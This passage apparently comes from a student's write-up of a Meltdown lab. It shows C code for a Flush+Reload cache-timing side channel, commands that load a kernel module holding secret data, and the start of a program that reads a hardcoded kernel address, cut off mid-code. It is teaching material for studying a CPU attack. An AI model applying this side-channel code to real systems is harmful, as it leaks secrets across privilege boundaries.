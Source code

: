 ```c=
void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) 
    array[i*4096 + DELTA] = 1;
  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) 
    _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel()
{
  uint32_t junk=0;
  uint32_t *addr;
  uint64_t time1, time2;

  int i;
  for(i = 0; i < 256; i++){
    addr = (uint32_t*)&array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
      printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
      printf("The Secret = %d.\n",i);
    }
  }
}

int main(int argc, const char **argv)
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
```
![](https://i.imgur.com/OIVUF1W.png)
#### task3 Place Secret Data in Kernel Space
```cmd=
cd MeltdownKernel
make
sudo insmod MeltdownKernel.ko
dmesg | grep `secret data address`
```
![](https://i.imgur.com/AF3sRMJ.png)
#### task4 Access Kernel Memory from User Space
```c=
// AccessMemoryKernel.cpp
#include <bits/stdc++.h>

int main()
{
  char *kernel_data_addr = (char*)0xf9ce3000;
  char kernel_data = *kernel_data_addr;
  printf("I have reached here.\n");
```
